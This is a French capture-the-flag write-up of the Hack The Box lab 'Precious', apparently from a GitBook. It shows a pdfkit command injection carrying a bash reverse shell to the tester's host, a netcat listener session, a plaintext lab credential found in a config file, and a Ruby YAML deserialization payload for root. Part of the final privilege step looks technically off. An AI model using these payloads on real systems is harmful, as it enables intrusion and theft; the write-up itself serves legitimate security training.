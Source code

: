 # Precious



Reconaissance :&#x20;

```linker-script
nmap 10.10.11.189 -T5 -Pn

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```



En se connectant au serveur http via l'adress ip on tombe sur un DNS non résolu. Il faudra l'ajouter soit dans :&#x20;

* /etc/hosts    => Linux
* /Windows/System32/Drivers/etc/hosts  => Windows &#x20;

```
10.10.11.189  precious.htb
```

Nous arrivons sur la page suivante  :

<figure><img src="../../.gitbook/assets/Capture d’écran 2023-02-17 105939.png" alt=""><figcaption></figcaption></figure>

Afin de fournir une URL au site web il faudra demarrer un serveur Http en local :&#x20;

```powershell
python -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

En fournissant notre url nous recevrons un fichier .pdf à télécharger.&#x20;

l'analyse des metada du fichiers avec exif tool nous montre qu'il a etait generé avec pdfkit v0.8.6:

<figure><img src="../../.gitbook/assets/metadata_precious (1).png" alt=""><figcaption></figcaption></figure>

En recherchant sur internet on tombe sur une cve critique : [https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

avec un joli exemple d'injection de commande :&#x20;

```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
```

utilisons notre plugin chrome "hack-tools" en renseignant l'ip et le port d'ecoute pour notre reverse shell et adaptons notre url :&#x20;

<figure><img src="../../.gitbook/assets/reverse_precisous.png" alt=""><figcaption></figcaption></figure>

Notre url d'injection devient la suivante :&#x20;

```bash
http://10.10.14.213:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.213/1234 <&1'`'}
```

Ouvrons notre listener netcat  et injectons la commande précedante &#x20;

```bash
PS C:\Users\Apotheas> ncat -nvlp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:51630.
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
whoami
ruby
bash-5.1$
```

En fouillant avec l'affichage des dossiers caché 'ls -a'  on tombe sur le repertoire suivant  :&#x20;

```bash
/home/ruby/.bundle
bash-5.1$ ls
ls
config
bash-5.1$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Surement la clef SSH  !  lets try it  !&#x20;

<figure><img src="../../.gitbook/assets/ssh-precious.png" alt=""><figcaption></figcaption></figure>

Le premier flaf user se trouvait dans le fichier user.txt ! cherchons maintenant un moyen de chopper le flag root.&#x20;

<figure><img src="../../.gitbook/assets/yaml-precious.png" alt=""><figcaption></figcaption></figure>

Avec un "sudo -l " on s'apercoit que le user Henry a les droit pour lancer un script .yaml qui charge un fichier de dependance via la méthode File.read().



```yaml
henry@precious:~$ cat dependencies.yml
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +x /bin/bash"
         method_id: :resolve
```

en modifiant l'id par "chmod +x /bin/bash" et en executant&#x20;

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

nous pouvons devenir root !&#x20;

```
/bin/bash -p
bash-5.1# ls
dependencies.yml  user.txt
bash-5.1# cat user.txt
```

